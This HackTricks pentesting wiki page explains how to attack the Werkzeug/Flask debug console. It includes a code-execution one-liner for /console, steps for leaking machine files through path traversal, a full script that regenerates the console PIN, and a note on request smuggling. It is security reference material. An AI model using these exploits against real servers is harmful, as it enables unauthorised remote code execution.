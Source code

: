 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (117).png>)

There is also several exploits on the internet like [this ](https://github.com/its-arun/Werkzeug-Debug-RCE)or one in metasploit.

## Pin Protected - Path Traversal

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

### Werkzeug Console PIN Exploit

Force a debug error page in the app to see this:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

To exploit the console PIN, two sets of variables, `probably_public_bits` and `private_bits`, are needed:

#### **`probably_public_bits`**

* **`username`**: Refers to the user who initiated the Flask session.
* **`modname`**: Typically designated as `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Generally resolves to **Flask**.
* **`getattr(mod, '__file__', None)`**: Represents the full path to `app.py` within the Flask directory (e.g., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` is not applicable, **try `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Fetches the MAC address of the current machine, with `str(uuid.getnode())` translating it into a decimal format.
  * To **determine the server's MAC address**, one must identify the active network interface used by the app (e.g., `ens3`). In cases of uncertainty, **leak `/proc/net/arp`** to find the device ID, then **extract the MAC address** from **`/sys/class/net/<device id>/address`**.
  *   Conversion of a hexadecimal MAC address to decimal can be performed as shown below:

      ```python
      # Example MAC address: 56:00:02:7a:23:ac
      >>> print(0x5600027a23ac)
      94558041547692
      ```
* **`get_machine_id()`**: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN:

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN. The script uses the assembled `probably_public_bits` and `private_bits` to create a hash, which then undergoes further processing to produce the final PIN. Below is the Python code for executing this process:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

This script produces the PIN by hashing the concatenated bits, adding specific salts (`cookiesalt` and `pinsalt`), and formatting the output. It's important to note that the actual values for `probably_public_bits` and `private_bits` need to be accurately obtained from the target system to ensure the generated PIN matches the one expected by the Werkzeug console.

{% hint style="success" %}
If you are on an **old version** of Werkzeug, try changing the **hashing algorithm to md5** instead of sha1.
{% endhint %}

## Werkzeug Unicode chars

As observed in [**this issue**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug doesn't close a request with Unicode characters in headers. And as explained in [**this writeup**](https://mizu.re/post/twisty-python), this might cause a CL.0 Request Smuggling vulnerability.

This is because, In Werkzeug it's possible to send some **Unicode** characters and it will make the server **break**. However, if the HTTP connection was created with the header **`Connection: keep-alive`**, the body of the request won’t be read and the connection will still be open, so the **body** of the request will be treated as the **next HTTP request**.

## Automated Exploitation

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## References

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
